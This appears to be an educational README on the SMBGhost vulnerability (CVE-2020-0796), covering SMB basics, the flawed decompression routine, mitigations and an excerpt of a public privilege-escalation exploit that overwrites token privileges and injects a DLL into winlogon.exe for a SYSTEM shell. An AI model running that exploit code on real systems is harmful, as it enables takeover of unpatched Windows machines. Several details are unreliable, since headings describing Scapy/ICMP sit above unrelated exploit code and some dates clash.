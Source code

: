 # CVE-2020-0796


## Background
On March 12,2020, Microsoft confirmed that a critical vulnerability affecting the SMBv3 (Server Message Block 3.1.1) protocol associated with its latest version of Windows 10 and it has a case number: CVE-2020-0796. This is known as SMBGhosting in Windows 10 OS. 
-	date discovered: 2019-4-11 by Zecops Research Team
-	date patched: 2020-10-3 by Microsoft 

CVSSv3: 
-	base score: 10.0
-	Impact score: 0
-	Exploitability Score: 3.9
-	Severity: CRITICAL

Affected version: 
-	Windows 10 version (1903 and 1909)
-	Windows Server Version (1903 and 1909)


## Introduction
### What is SMB and what it does?
[Official defination](https://en.wikipedia.org/wiki/Server_Message_Block) In computer networking, Server Message Block, one version of which was also known as Common Internet File System (CFIS), is a communication protocol for providing shared access to files, printers and serial ports between nodes on a network. It also provides an authenticated inter-process communication (IPC) mechanism

This Protocol enables your devices to communciate with remote computers or servers. It basically lets you share files.

### What is SMBGhost and what it does? 
 This is a type of vulnerability that affects Windows 10 computers and was first reported publicly on 10 March, 2020. 
 
 This vulnerability allows the attacker to remotely execute the code on the SMB server or client. 



### who uses it and why would you want to use it
Users could be anyone among us. Here is a scenario, Imaging you are with your laptops, and using a printer connected to the company’s computer. When you request to print a document, your laptop uses the SMB protocol to send the print request to the company’s computer; while through the same protocol, your laptop will receive a response on whether the file is printed. 


### Real world impact
SMB version
-	SMBv1: released by IBM, Modified by Microsoft, (1990)
-	SMBv2: By Microsoft, Boosted performance
-	SMBv3: Increased Security

![download](https://user-images.githubusercontent.com/25041906/111921659-15191b00-8a6c-11eb-9c72-2afd91c12c3f.jpg)

The infamous WannaCry ransomware was an exploit of a vulnerability in SMB version one.
It infected hundreds of thousands of computers and encrypted their data. Users have to pay in Bitcoin to get their data back. 






## Vulnerability POC
The vulnerability exits because SMB does not handle the compressed network packets properly. In particular, the Srv2DecompressData function is called to decompress the packet, but it does not validate the original compressed size (originalCompressedSegmentSize + Offset) of the packet header. Therefore, a small amount of the additional memory for offset address is copied in the kernel memory. No surprisingly, the bug can be used to cause overflow to gain higher local privileges.
The below POC created by zecops research team illustrates how the bug can be exploited remotely without authentication by causing a blue screen of death.This is a simplified version of the function below



### Create a simple packet header 
Creating a network packet is one of the main features of Scapy. Initially, I will create a simplest header of a packet, which only contains source ip address and destination ip address.                                           
 
    typedef struct _COMPRESSION_TRANSFORM_HEADER
    {
      ULONG ProtocolId;
      ULONG OriginalCompressedSegmentSize;
      USHORT CompressionAlgorithm;
      USHORT Flags;
      ULONG Offset;
    } COMPRESSION_TRANSFORM_HEADER, *PCOMPRESSION_TRANSFORM_HEADER;
 

    typedef struct _ALLOCATION_HEADER 
    {
      // ...
      PVOID UserBuffer;
      // ...
    }  ALLOCATION_HEADER, *PALLOCATION_HEADER;
 
    NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
    {
         PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
    
    ULONG FinalCompressedSize = 0;
    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }
 
    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }
 
    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}


By comparing line 20 (size + offet) and line 31 (size - offset), we can easily know that the buffer overflowed by executing this function. So If the offset is not zero, it triggers an additional integer overflow by three steps, allocate, decompress and copy. As a result, the memory allocation is shown in the picture below.

![Srv2DecompressData function](https://www.google.com/search?q=Srv2DecompressData&rlz=1C5CHFA_enCA919CA919&sxsrf=ALeKk03wKnRn0j00hxWl75aBvq5trvRMCQ:1616359135729&source=lnms&tbm=isch&sa=X&ved=2ahUKEwir7fSAn8LvAhWfGVkFHY8DBcMQ_AUoAnoECAEQBA&biw=1920&bih=976#imgrc=orKq2sACNF39NM&imgdii=lzwKxoCYwmreCM)


Whether or not the copy step is going to be executed, we already triggered the overflow since we changed the allocated size to be smaller than it actually needed. Thus, we are able to overflow any size of the content.
This could be a crucial vulnerability because we can use this to crash a specific windows system by an IP address.  The code below was created by ZECOPS research team, which customized a network packet header size and set up the offset in a token and exploit the vulnerability. The core part of the source code is shown as below.



### Send and receive packets (sr)
One of the most important segments in network is sending and receiving the packets. The sr() function is how we can implement them. The function will return both answered and unanswered packets. Below is a demonstration on how we use this function to send and receive a ICMP packets, as well as to decode the received the packets. 

>>> 
def exploit():
   """
   Exploits the bug to escalate privileges.
   Reminder:
   0: kd> dt nt!_SEP_TOKEN_PRIVILEGES
      +0x000 Present          : Uint8B
      +0x008 Enabled          : Uint8B
      +0x010 EnabledByDefault : Uint8B
   """
   token = get_token_address()
   if token is None: sys.exit(-1)

   what = b'\xFF' * 8 * 3
   where = token + 0x40

   print('[+] Writing full privileges on address %x' % (where))

   write_what_where('127.0.0.1', what, where)

   print('[+] All done! Spawning a privileged shell.')
   print('[+] Check your privileges: !token %x' % (token))

   dll_path = pathlib.Path(__file__).parent.absolute().joinpath('spawn_cmd.dll')
   subprocess.call(['Injector.exe', '--process-name', 'winlogon.exe', '--inject', dll_path], stdout=open(os.devnull, 'wb'))

And when the SMB decompressed the header, it will crash the windows system at the beginning by bule screen of death as below.
![blue screen of death](https://en.wikipedia.org/wiki/Blue_screen_of_death#/media/File:Bsodwindows10.png)

But if we keep trying the exploit several times, we can get the system/authority privilege.

![get the root privilege](start.png)
![get the root privilege](end.png)

The whole stack buffer overflow source code refer to zecops research team at https://github.com/ZecOps/CVE-2020-0796-LPE-POC


### Mitigating SMB Ghosting Attacks
There are several entities and organizations at risk of this attack:
Small and large government entities, Large and small business entities, and home users.

#### There are 3 main methods of preventing SMB Ghosting Attacks
Method 1: Involves using the Windows Update program to install the new security updates or cumulative updates released in March 2020.
Method 2: Visiting the official Microsoft website to download the SMB Ghosting security patch which would be the service stack update KB4541338, cumulative update KB4551762.
Method 3: This is a workaround provided by Microsoft which is not a Recommended solution as it does not Prevent the Exploitation, It Just Disables the SMBv3 Compression.
Execute this command in PowerShell:
Command - Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force


### Conclusion 


### Resources
[ Security vuknerability ](https://en.wikipedia.org/wiki/SMBGhost_(security_vulnerability))
[ SMB protocol ](https://www.youtube.com/watch?v=csocwMe7l_E)
